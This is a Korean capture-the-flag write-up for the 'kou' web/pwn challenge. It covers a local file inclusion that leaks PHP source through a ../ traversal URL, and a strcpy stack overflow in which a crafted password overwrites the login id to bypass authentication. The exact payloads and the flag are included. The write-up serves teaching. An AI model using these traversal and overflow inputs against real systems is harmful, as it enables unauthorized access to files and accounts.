



# TenDollarCTF 3rd - kou

## Information

Category : Web, Pwn

Solver : 7

Tag : LFI, Overflow

## Description

Author: @shpik

Eagle-Jump is black company?

Server Info: http://web2.tendollar.kr:10101/

## Exploit

문제 페이지에 들어가면 4개의 메뉴가 존재합니다. (੭ ᐕ)੭*⁾⁾

- Home
- Article
- Login
- Join

각각의 메뉴들은 p파라미터로 페이지가 로드됩니다.

`http://web2.tendollar.kr:10101/?p=home`

p 파라미터에다가 php wrapper나 ../와 같은 문자열이 들어갔을때 전부 home으로 이동합니다.

또한 위의 메뉴들을 제외하면 전부 home으로 이동하는 걸로 봐서 whitelist 방식으로 페이지를 로드하는 것 같습니다.

Article메뉴에 들어가면 Secret Data라는 글이 있습니다.

이를 읽으면 You're not admin.이라는 글과 함께 내용이 나오지 않습니다.

글을 요청할때 f 파라미터로써 요청되는 것을 확인할 수 있습니다.

`http://web2.tendollar.kr:10101/?p=view&f=First%20Article`

f 파라미터에 ./, ../를 넣어보면 LFI 취약점이 발생하는 것을 알 수 있으며 이를 통해 index.php와 같은 소스코드를 Leak할 수 있습니다.

`http://web2.tendollar.kr:10101/?p=view&f=../../var/www/html/index.php`

```html
<!-- index.php -->
<!DOCTYPE html>
<html>
<head>
	<title>Yagami Kou's Homepage</title>
	<link rel=stylesheet href="index.css">
</head>
<body>
	<?php
		@include_once('menu.php');
	?>
	<br>
	<?php
		$pageList = array(
			'home',
			'login',
			'loginchk',
			'logout',
			'view',
			'board',
			'join'
		);
		if(in_array($_GET['p'], $pageList)) {
		  @include_once($_GET['p'].'.php');
		} else {
		  @include_once('home.php');
		}		
	?>
</body>
</html>
```

위에 pageList중 중요해 보이는 loginchk를 우선적으로 Leak해보자.

```html
<!-- loginchk.php -->
<?php
	$id = $_POST['id'];
	$pw = $_POST['pw'];
	if($id!='' && $pw!=''){
		if(preg_match('/kou/i',$id)){
			die('<script>alert("Don\'t login at kou.");history.back();</script>');
		}
		if(login($id,$pw)){
			$_SESSION['is_login'] = 1;
			$_SESSION['admin'] = 1;
			echo '<script>alert("Login Success.");location.href="?p=home";</script>';
		}else{
			echo '<script>alert("Login Fail.");history.back();</script>';
		}
	}else{
		echo '<script>alert("Login Fail.");history.back();</script>';
	}
?>
```

소스코드를 보면 kou라는 아이디로 로그인이 막혀있는 것을 알 수 있습니다.

그리고 login할때 **login** 함수를 통해 id, pw를 검증하는 것 같은데, 이 함수는 기본 함수가 아니다.

아마 다른 모듈을 통해 해당 함수를 수행하는 것 같다.

```html
<!-- view.php -->
<?php
	$f = $_GET['f'];
	if(!is_array($f) && !is_null($f) && $f!=''){
//		$f = str_replace('../','', $f);
		if($f[strlen($f)-1]=='/'){
			$f[strlen($f)-1]=='\0';
		}
		if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==1){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}else if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==0){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre>You're not admin.</pre>
	</div>
<?php
		}else{
?>
	<div class="description">
		<p style="font-size: 20px;"><?=$f;?></p>
		<br><br>
		<?php
		if(preg_match('/kou\.so/i',$f)){
			echo 'Okay Here<br><div>'.file_get_contents('/var/www/modules/kou.so').'</div>';
		}
		?>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}

	}else{
		echo '<script>alert("No found.");history.back();</script>';
	}
?>
```

다음으로 view.php를 보면 f로 입력받은 값을 **loadFile**을 통해 내용을 페이지에 뿌려주는 것 같습니다.

**loadFile** 또한 기본 함수가 아니라 다른 모듈에 정의된 함수처럼 보입니다.

f로 kou.so를 요청하면 `loadFile`이나 `login`함수를 가지고 있는 **kou.so**파일을 줍니다.

열어봅시다.



먼저 **loadFile**함수는 fopen을 통해 파일을 여는 함수입니다.

별로 특이한 건 보이지 않으니 **login** 함수를 봅니다.



입력 받은 값을 **loginchk** 함수를 통해 검증합니다.



**loginchk**함수에서는 id과 pw를 비교하여 값이 같을 때 True를 리턴합니다.

하지만 id는 kou이면서 pw는 1e0c6abede7ff7184c3cefe606f9760a이어야 하는데, loginchk.php에서는 id가 kou가 들어가면 안됩니다.

이 문제의 취약점은 login에 있습니다.

```c
strcpy(_id, id);
v3 = strcpy(_pw, pw);
```

strcpy를 통해 입력받은 값을 각각 \_id, \_pw를 넣어 놓습니다.

```c
char _pw[32]; // [rsp+20h] [rbp-68h]
char _id[33]; // [rsp+40h] [rbp-48h]
```

\_id와 \_pw의 스택을 보면 _pw다음에 _id가 오는것을 볼 수 있습니다.

strcpy를 통해 id를 입력받고 그 후에 pw를 복사합니다만, strcpy는 문자열의 길이를 검사하지 않고 복사합니다.

pw로써 1e0c6abede7ff7184c3cefe606f9760akou를 넣으면 _id에는 kou, _pw는 1e0c6abede7ff7184c3cefe606f9760a가 들어가 정상적으로 로그인 됩니다.

즉, pw를 이용해 overflow를 일으켜 id에 kou를 넣는 것이 가능합니다.

이제 페이지에 로그인할 때 id=a, pw=1e0c6abede7ff7184c3cefe606f9760akou를 넣어주면 로그인에 성공하게 됩니다.

로그인 후에 Article로 이동하여 Secret Data를 읽으면 Flag를 얻을 수 있습니다.

```
Secret Data

退勤する前にFLAGを残していきます。
TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}
```


**FLAG :** TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}

